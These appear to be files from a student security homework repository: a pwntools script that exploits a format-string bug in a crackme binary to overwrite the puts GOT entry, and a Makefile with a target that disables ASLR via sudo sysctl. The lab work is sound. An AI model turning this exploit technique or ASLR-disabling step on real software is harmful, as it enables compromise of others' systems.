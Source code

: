 ## exploit/02_fmt64.py

```python
from pwn import *

context(arch='amd64', os='linux', log_level='INFO')

elf = ELF("crackme/02_fmt64/echo")
puts_got = elf.got['puts']
tar_func_got = elf.got['target_function_3180103012']
log.info('puts got: 0x%x' % puts_got)        # 0x603030
log.info('target got: 0x%x' % tar_func_got)  # 0x603158

p = process('crackme/02_fmt64/echo')
id_addr = int(p.recvuntil('\n')[-9:-1], 16)
log.info('id address: 0x%x' % id_addr)  # 0x603218
p.recvuntil('You can exactly 256 charecters ...\n')

p.send((b'%34148x%13$hn' + b'%14376x%14$hn' + b'%4152122x%12$ln').ljust(48, b'\x99') + p64(puts_got) + p64(id_addr) + p64(id_addr + 2))

p.recvuntil('3180103012\n')

p.close()
```

## Makefile

```makefile
.PHONY: default echo1 echo2 echo3 01 02 03 01_fmt32 02_fmt64 03_bonus
.PHONY: aslr dasm zip file clean

export TOP=$(shell pwd)
export CRACKME=${TOP}/crackme
export LD_LIBRARY_PATH:=${LD_LIBRARY_PATH}:${CRACKME}/01_fmt32:${CRACKME}/02_fmt64:${CRACKME}/03_bonus
# export LD_LIBRARY_PATH=${LD_LIBRARY_PATH}:/home/student/SS/HW/hw03/crackme/01_fmt32:/home/student/SS/HW/hw03/crackme/02_fmt64:/home/student/SS/HW/hw03/crackme/03_bonus

default:
	@echo "\e[32mLD_LIBRARY_PATH:\e[0m ${LD_LIBRARY_PATH}"
	@echo "\e[32mkernel.randomize_va_space:\e[0m $(shell sysctl -n kernel.randomize_va_space)"
	@echo "\nPlease specify task."

aslr:
	@if [ $(shell sysctl -n kernel.randomize_va_space) -eq 2 ] ; then \
		sudo sysctl -w kernel.randomize_va_space=0 ; \
	else \
		sudo sysctl -w kernel.randomize_va_space=2 ; \
	fi

echo1:
	crackme/01_fmt32/echo
echo2:
	crackme/02_fmt64/echo
echo3:
	crackme/03_bonus/echo

01: 01_fmt32
01_fmt32:
	python3 exploit/01_fmt32.py
02: 02_fmt64
02_fmt64:
```